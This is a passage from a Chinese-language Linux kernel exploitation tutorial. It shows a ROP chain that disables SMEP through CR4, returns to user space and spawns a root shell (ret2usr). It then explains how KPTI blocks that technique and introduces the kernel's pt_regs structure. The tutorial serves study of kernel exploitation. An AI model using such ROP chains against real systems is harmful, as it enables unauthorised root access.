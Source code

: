 ```c
rop_chain[i++] = POP_RAX_RET + offset;
rop_chain[i++] = 0x6f0;
rop_chain[i++] = MOV_CR4_RAX_PUSH_RCX_POPFQ_RET + offset;
rop_chain[i++] = (size_t)userland_root_shell;
rop_chain[i++] = SWAPGS_POPFQ_RET + offset;
rop_chain[i++] = 0; // pop_fq
rop_chain[i++] = IRETQ_RET + offset;
rop_chain[i++] = (size_t)get_root_shell;
rop_chain[i++] = user_cs;
rop_chain[i++] = user_rflags;
rop_chain[i++] = user_sp;
rop_chain[i++] = user_ss;
```

虽然但是，我们上面指定了`cpu`型号为`qemu64-v1`，因为其他`CPU`默认开启`kpti`机制（例如一般指定的`kvm64`），导致在内核页表下的用户地址无可执行权限，会直接导致`panic`。`byebye ret2usr`。

## 0x07 pt_regs结构体

在用户态下，我们经常使用系统调用产生中断，以切换到内核态来执行函数，例如`x86-64`中的`syscall`。

然而，我们知道`64`位下前`6`个参数都位于寄存器中，而系统调用的值实际上也需要进行寻址，那么如何对寄存器寻址呢？实际上，这是因为当程序进入到内核态的时候，操作系统会将所有的寄存器压入到内核栈上，形成一个`pt_regs`结构体。而该结构体实际上位于内核栈底，[定义](https://elixir.bootlin.com/linux/latest/source/arch/x86/include/uapi/asm/ptrace.h#L44)如下：

```c
struct pt_regs {
/*
 * C ABI says these regs are callee-preserved. They aren't saved on kernel entry
 * unless syscall needs a complete, fully filled "struct pt_regs".
 */
    unsigned long r15;
    unsigned long r14;
    unsigned long r13;
    unsigned long r12;
    unsigned long rbp;
    unsigned long rbx;
/* These regs are callee-clobbered. Always saved on kernel entry. */
    unsigned long r11;
    unsigned long r10;
    unsigned long r9;
    unsigned long r8;
    unsigned long rax;
    unsigned long rcx;
    unsigned long rdx;
    unsigned long rsi;
    unsigned long rdi;
/*
 * On syscall entry, this is syscall#. On CPU exception, this is error code.
 * On hw interrupt, it's IRQ number:
 */
    unsigned long orig_rax;
/* Return frame for iretq */
    unsigned long rip;
    unsigned long cs;
    unsigned long eflags;
    unsigned long rsp;
    unsigned long ss;
/* top of stack page */
};
```
